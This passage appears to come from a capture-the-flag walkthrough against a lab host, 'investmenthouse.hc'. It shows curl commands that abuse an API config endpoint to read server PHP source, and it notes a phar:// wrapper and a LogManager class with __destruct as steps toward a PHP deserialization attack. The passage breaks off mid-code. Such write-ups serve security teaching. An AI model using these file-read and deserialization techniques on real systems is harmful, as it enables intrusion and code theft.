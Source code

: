 > The download controller supports the `phar://` wrapper. 
{: .prompt-tip}

### LogManager Class Analysis


We also discover a LogManager class that has a `__destruct()` method from the `register.php` controller:

```bash
➜  ~ curl -s 'http://api.investmenthouse.hc/api/config?config_template=/var/www/investmenthouse.hc/app/controllers/register.php' -H 'x-api-key: hBwUv2xdcBJJyrrNGp6TMm9saER3XKPK' | jq '.data._config.data' -r
<?php
use app\models\User;
use app\classes\LogManager;

if(auth())
{
    return redirect('index.php');
}

if(get_method() == 'POST' && isset($request->username) && isset($request->password) && !empty($request->username) && !empty($request->password))
{
    $user = new User;
    $find = $user->find('username', $request->username);

    if(!$find)
    {
        $user->insert([
            "username" => $request->username,
            "password" => md5($request->password),
            "role" => "user",
            "image" => "https://robohash.org/".md5($request->username)
        ]);

        $logmanager = new LogManager;
        $logmanager->log = 'New registered user!';

        return redirect('login.php');
    }

    set_flash('register','This user already exists!');
    return redirect('register.php');
}

render('register');
```

```bash
curl -s 'http://api.investmenthouse.hc/api/config?config_template=/var/www/investmenthouse.hc/app/classes/LogManager.php' -H 'x-api-key: hBwUv2xdcBJJyrrNGp6TMm9saER3XKPK' | jq '.data._config.data' -r
<?php
namespace app\classes;

class LogManager
{
    public $path = '/tmp/';
    public $file = 'log.txt';
    public $content;

    public function __set($attr, $val)
    {
        if($attr == 'log')
        {
```